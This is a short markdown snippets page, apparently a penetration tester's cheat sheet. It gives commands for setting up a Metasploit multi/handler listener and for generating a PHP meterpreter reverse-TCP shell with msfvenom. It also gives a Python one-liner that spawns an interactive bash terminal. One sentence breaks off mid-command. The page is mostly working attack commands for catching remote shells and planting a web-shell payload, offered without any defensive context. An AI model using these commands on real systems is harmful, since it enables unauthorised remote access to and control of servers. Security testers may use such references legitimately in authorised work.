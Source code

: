 ```yaml
---
title: /snippets
layout: page
permalink: /snippets
---
```


### Metasploit
#### Handlers

```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r 

#### Scripting Payloads
###### PHP
```bash
$ msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> 
lport=<your-port-address> -o shell.php
```


### Python

##### spawn a terminal 
```python
$ python -c 'import pty;pty.spawn("/bin/bash")';
```
